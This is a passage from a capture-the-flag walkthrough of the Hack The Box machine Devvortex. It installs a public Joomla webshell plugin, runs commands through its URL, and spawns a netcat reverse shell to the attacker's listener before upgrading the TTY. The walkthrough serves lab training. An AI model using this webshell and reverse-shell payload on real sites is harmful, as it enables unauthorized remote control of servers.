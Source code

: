 - [https://github.com/p0dalirius/Joomla-webshell-plugin](https://github.com/p0dalirius/Joomla-webshell-plugin)

Just clone the repository locally:

```bash
git clone https://github.com/p0dalirius/Joomla-webshell-plugin.git
```

In order to add this plugin go to *System -> Extension*, then select the `joomla-webshell-plugin-1.1.0.zip` and it will automatically install, now on you can execute commands from this URL:

-  http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id

_A good thing also is you can see stderr of the commands cause you are operating from the API_

![Desktop View](RCE.png)

So just execute the usual reverse shell and set a listener.

```
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.5 443 >/tmp/f
```

```bash
nc -nlvp 443
```

And there we go, we got access to the machine.

![Desktop View](Reverse.png)

-- -
## Shell as Logan

### TTY Treatment 

Once we get the reverse shell, let's find a way to scale privileges, but before, we have to get a fully interactive shell, there are multiple ways but i like to do it this way: 

```bash
script /dev/null -c bash
```

Then press *Ctrl+Z* to get the process in background.

Now that you are in your machine execute the next command:

```bash
stty raw -echo;fg
```

Now write `reset xterm` and you should have a better looking shell but you still have to execute a few commands:

```bash
export TERM=xterm
export SHELL=bash
stty rows 45 columns 184
```
